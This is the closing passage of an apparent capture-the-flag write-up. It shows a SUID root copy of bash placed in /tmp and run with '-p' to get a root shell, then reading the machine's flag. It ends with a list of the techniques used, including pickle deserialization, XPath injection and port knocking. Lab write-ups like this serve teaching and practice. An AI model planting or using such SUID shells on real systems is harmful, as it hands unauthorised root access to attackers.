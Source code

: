 ```shell
dev1@incognito:/etc/init.d$ ls -lah /tmp/root_bash 
-rwsr-sr-x 1 root root 1.1M Jan 24 06:25 /tmp/root_bash
```

We did it!

**Let's spawn a root Bash shell!**
```shell
dev1@incognito:/etc/init.d$ /tmp/root_bash -p
root_bash-4.4# whoami;hostname;id;ip a
root
incognito
uid=1001(dev1) gid=1001(dev1) euid=0(root) egid=0(root) groups=0(root),1001(dev1)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:dd:75:6c:fe:03 brd ff:ff:ff:ff:ff:ff
    inet 10.10.115.32/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3270sec preferred_lft 3270sec
    inet6 fe80::dd:75ff:fe6c:fe03/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**root.txt:**
```shell
root_bash-4.4# cat /root/root.txt
{Redacted}
```

# Conclusion

What we've learned:

1. Enumerating Subdomain
2. Exploiting Insecure Deserialization In Python's Pickle Lirary
3. Exploiting XPath Injection In Login Page
4. Port Knocking
5. Horizontal Privilege Escalation Via Misconfigurated `/etc/knockd.conf` File